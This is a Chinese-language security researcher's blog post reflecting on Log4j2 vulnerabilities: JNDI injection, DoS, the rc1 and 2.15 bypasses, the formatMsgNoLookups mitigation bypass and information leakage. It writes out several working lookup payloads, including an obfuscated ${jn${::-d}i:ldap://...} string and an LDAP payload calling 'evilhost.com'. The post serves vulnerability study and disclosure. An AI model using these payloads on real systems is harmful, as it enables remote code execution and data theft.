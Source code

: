 # 闲谈log4j2

## log4j2爆炸漏洞

简单的说一下最近这个log4j2漏洞吧，这个漏洞自己也跟了有一段时间了。第一次在学长那听到了这个漏洞，当时只是跟但了jndi注入点并没有发现漏洞的入口，也就是${jndi:ldap://127.0.0.1/exp}.一方面是没有想到这个功能，但是之后感觉官方文档里面说了[文档](https://logging.apache.org/log4j/2.x/manual/lookups.html#JndiLookup)，可能是自己语文水平不太好。(有点吃亏。。。

## 挖掘新问题

然后就是复现漏洞。挖新的问题。当时第一时间感觉这个东西肯定有问题，第一时间就想到了dos。

![image-20211218215051277](https://user-images.githubusercontent.com/63966847/146644571-d87566e9-ac55-44f7-aaf3-0a64beb97b01.png)


当时因为环境没有配置起就去睡觉了，当时已经是晚上的3点了。

说一下我当时发现的dos问题大致是因为数组长度我们可以控制造成溢出。第二天中午我大哥就提交了dos漏洞。之后就没有管了。

## 绕过rc1

在然后说一下绕过rc1吧这个东西虽然简单但是我调试了一下午，大概是因为对异常没有处理，也就是在catch中没有return，导致程序会继续执行。

![Q`X GHE7UL3 IBYUAB0EFW](https://user-images.githubusercontent.com/63966847/146644576-d80164ab-1879-4e01-a50e-626f1c99bf5e.png)


所以绕过思路就直接让new url(name) 抛出异常就欧克。

tips:和bypass7u21差不多。。。

## 修复问题

```
今天看陈师傅写的文章，也就是修复log4j的坑。
在漏洞报出来的时候修复的方法是：

1.设置配置文件参数 log4j2.formatMsgNoLookups=true,
2.vm启动环境参数 -Dlog4j2.formatMsgNolookups=true,
3,设置系统环境变量 FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS 设置为true
而这样的修复是打破这个判断
```

![image-20211215142114290](https://user-images.githubusercontent.com/63966847/146644579-6ed47eaf-8666-42ed-be31-7a01d83d860c.png)


认真看该代码其实在下面还有一个入口。


![image-20211215142251448](https://user-images.githubusercontent.com/63966847/146644583-ac2f76eb-028d-4afb-8f72-e5848746b49c.png)

可以看到判断条件是 **msg instanceof StringBuilderFormattable**

所以可以走第二个入口就绕过了log4j2.formatMsgNoLookups=true的判断

```java
log.printf(Level.ERROR,"${jndi:ldap://127.0.0.1:2333}");
```

>https://mp.weixin.qq.com/s?__biz=MzIxNDAyNjQwNg==&mid=2456098698&idx=1&sn=8c66b476cb303bdf413337bc5c92e127&chksm=803c6643b74bef55d1606a424e555ef09e27b8736928acdca027332453c6d9e4d7a11d7e589d&mpshare=1&scene=23&srcid=1215Twk8iymC8x9gXD72dMTK&sharer_sharetime=1639550097318&sharer_shareid=20feca07eb3065d70e5194c2cdd097b3#rd
>
>https://mp.weixin.qq.com/s/vAE89A5wKrc-YnvTr0qaNg

## 信息泄露

信息泄露这个问题我在漏洞刚刚出来的那天晚上就想到了，只是对比rce，信息泄露就微不足道。因为log4j2支持很多协议 sys等等可以看到env等等这些的信息，然后通过dns带出来。

不过值得说一下其中有一个思路通过ResourceBundleLookup类去获得读取项目中后缀为properties的配置文件，其中就可能有username/password。当时我是看到了只是不知道这个方法是干啥子的也没有去百度。。。哭死了。

https://mp.weixin.qq.com/s?__biz=Mzg4OTExMjE2Mw==&mid=2247483945&idx=1&sn=b15b68d95da83bb20f1b3496396f823a&chksm=cff19125f88618338373a32f98be3d2a9497b464d6531658c2aa96f4872c23eed294441917b5&mpshare=1&scene=23&srcid=1211aS0Tghr1agBnBRlwwGTw&sharer_sharetime=1639232420884&sharer_shareid=33a823b10ae99f33a60db621d83241cb#rd

https://www.cnblogs.com/jona-test/p/11399218.html

## bypass

这个东西太多了，在tw一看就很多很多。一方面是因为一些协议可以返回输入的值比如：lower data

还有一个bypass思路是因为执行解析log4j2中的${}问题。简单的说也是将${::-x}解析成x

```
${jn${::-d}i:ldap://127.0.0.1:8880/}
```

## cve-dos

大哥成功获得apache的cve。https://xz.aliyun.com/t/10670

简单的看了一下发现里面的思路和我不一样，大哥是想到了网络连接，也就可以存在一个网络超时的问题，而且log4j2支持递归解析。。所以就让他一直解析网络超时的ip...造成dos.

在这个cve通报中发现存在rce?简单的看了一下，我的理解是因为配置文件配置的这一次解析问题,如下配置中就有$${}这样。

```
<Appenders>
    <Console name="STDOUT" target="SYSTEM_OUT">
        <PatternLayout>
            <pattern>%d %p %c{1.} [%t] $${ctx:loginId} %m%n</pattern>
        </PatternLayout>
    </Console>
</Appenders>
```

而其中里面了ctx协议ContextMapLookup类，简单的说大概就是将我们解析的东西放到map里面然后在取出来。取出来之后在解析${xxxx}就造成了rce问题/dos问题。

## bypass 2.15

昨天在tw上看到了bypass 2.15版本,这个东西还没有具体去复现。不过看了一下exp大致懂了。。

```
${jndi:ldap://127.0.0.1#evilhost.com:1389/exp}
```

不过环境要求比较严格而且真实环境的rce可能比较可能。。。

2021/12/20更新

今天看到了大哥写的bypass 2.15 rce分析简单的记录一下 https://xz.aliyun.com/t/10689

利用条件

1.开启lookup功能

2.macos系统

3.泛域名解析

4.本地存在gadget

该exp通过去绕过了ip限制并且可以解析远程恶意ip(macos系统

```
${jndi:ldap://127.0.0.1#evilhost.com:1389/exp}
```

然后去绕过ldap服务的限制。


![image-20211220183446609](https://user-images.githubusercontent.com/63966847/146754506-bccfb16a-57e0-40d6-be17-36cbe67705a7.png)



正常情况是直接通过Reference去利用，不过这里不能使用Reference，所以就利用deserializeObject，其实就是bypass jdk8u191。满足本地存在gadget。只是需要把classname换成基本数据类型。去绕过**if (!allowedClasses.contains(className))**

也其实就是我们在了ldap的时候的思路 **LDAP服务攻击一般是先测Reference再测deserializeObject**

![image-20211220183705875](https://user-images.githubusercontent.com/63966847/146754481-8d5aff45-fa12-4593-9165-ace4aa0257bd.png)







## 总结一下

主要是自己的问题，

第一点是读文档的习惯少导致不理解其中的意思失去第一时间拥有exp

第二点是自己没有考虑到dos中的网络连接超时问题。

第三点是自己发现了ResourceBundleLookup类却不知道其意思导致失去新思路的发现。

（如果官方在删除lookup功能我相信还会有更多的漏洞。。。。。。。。
